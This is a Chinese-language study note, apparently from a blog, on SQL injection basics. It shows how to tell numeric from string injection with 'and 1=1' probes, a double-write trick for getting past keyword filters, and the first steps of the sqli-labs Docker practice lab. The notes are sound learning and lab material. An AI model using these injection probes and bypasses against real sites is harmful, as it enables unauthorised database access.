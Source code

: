 1. 数字型

```sql
select * from users where id = x
```

这种可以用`and 1 = 1` `and 1 = 2`判断

```
?id = x and 1=1     //页面正常
?id = x and 1=2     //页面报错，这说明存在数字型注入
```

2. 字符型

```sql
select * from users where id = 'x'
```

这种可以用`'and '1' = '1` `'and '1' = '2`判断

```
?id=1' and '1'='1	//页面正常
?id=1' and '1'='2	//页面报错，这说明存在字符型注入
```

* 字符型和数字型最大的区别就是要不要单引号闭合

#### 绕过小技巧

**双写绕过**
原理很简单，就是网站的过滤有时候可能没那么严谨，只会过滤掉一些关键词，我们找到这些关键词，如select，就可以用`seselectlect`，当过滤掉select时，剩下的字符串拼接在一起，就会恢复成原始有效的关键字，进行绕过

**空格过滤**

### sqli-lab

前几个都用的buu得靶场，做到第7题发现不是很好做，就自己搞一个

用docker下比较方便

```bash
docker pull acgpiano/sqli-labs
docker run -dt --name sqli-lab -p 5678:80 acgpiano/sqli-labs:latest
```

![image-20250427181305971](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250427181305971.png)

#### lab1

页面要输入一个id，直接在url后加?id=1
成功查询到名字，然后尝试注入

```
/?id=1'--      //报错
/?id=1'--+     //没报错
```

* 这里是因为sql中`--`注释符需要后面跟一个空格，在url编码中`--+`中的+相当于空格
